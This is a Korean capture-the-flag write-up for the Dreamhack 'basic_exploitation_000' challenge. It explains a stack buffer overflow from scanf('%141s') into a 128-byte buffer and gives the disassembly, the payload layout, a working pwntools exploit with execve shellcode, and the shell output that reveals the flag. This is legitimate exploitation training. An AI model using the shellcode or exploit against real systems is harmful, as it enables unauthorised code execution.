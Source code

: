```c
 ⚡ root  ~/Downloads  cat basic_exploitation_000.c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];					// 128 Byte 크기의 문자열 변수 선언

    initialize();
    
    printf("buf = (%p)\n", buf);	// buf의 주소 출력
    scanf("%141s", buf);			// buf에 141 Byte 크기의 문자열을 입력받음

    return 0;
}
```

`buf` 의 크기는 `128 Byte` 밖에 안되는데, `scanf("%141s", buf)` 를 통해서 `141 Byte` 크기의 입력을 받기 때문에 버퍼 오버플로우가 발생합니다.

 
<br>
 

gdb로 어셈블리어를 봐보면

```bash
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>			// initialize() 함수 호출
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]					// eax = buf(ebp-128)
   0x080485e7 <+14>:    push   eax								// push eax
   0x080485e8 <+15>:    push   0x8048699						// push "buf = (%p)\n"
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>			// printf("buf = (%p)\n", buf)
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80]					// eax = buf(ebp-128)
   0x080485f8 <+31>:    push   eax								// push buf(ebp-128)
   0x080485f9 <+32>:    push   0x80486a5						// push "%141s"
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>	// scanf(%141s", buf)
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave  
   0x0804860c <+51>:    ret    
End of assembler dump.
```

<br>

메모리 구조를 그려보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/61f6114c-4a24-4118-b1b5-1ff757333cbd/image.png">

* `buf` 의 주소는 `printf()` 로 출력을 해주기 때문에 따로 찾을 필요 없고, `shellcode` 는 `scanf()` 우회 쉘 코드인 `26 Byte` 쉘 코드를 사용하면 됩니다.

* 페이로드는
`buf~EBP ← shellcode[26] + NOP[106]`
`RET ← buf_address[4]`
로 구성해서 공격을 하면 될 거 같습니다.
 
<br> 

`pwntools` 로 익스플로잇 코드를 짜 보면

```python
from pwn import *

p = remote("host3.dreamhack.games", 12129)	# 원격 서버 접속

# scanf() 우회 shellcode
shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

buf = int(p.recv()[7:17], 16)	# 출력 데이터인 buf = (0xffffcfb8)에서 0xffffcfb8 (index: 7 ~ 17)만 16진수로 buf에 저장

payload = shellcode				# payload = shellcode[26]
payload += b"\x90"*106			# payload = shellcode[26] + NOP[106]
payload += p32(buf)				# payload = shellcode[26] + NOP[106] + buf_address[4]

p.sendline(payload)				# payload 입력
p.interactive()	   				# user에게 입출력을 다시 돌려줌
```

<br>
 

익스플로잇 코드를 실행시켜보면
```python

 ⚡ root  ~/dreamhack  python exploit001.py
[+] Opening connection to host3.dreamhack.games on port 12129: Done
[*] Switching to interactive mode
$ ls
$ ls
basic_exploitation_000
flag
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$ 
$ 
[*] Got EOF while reading in interactive
```

공격에 성공해서 쉘이 떴고 플래그를 출력하니 정상적으로 출력되었습니다.
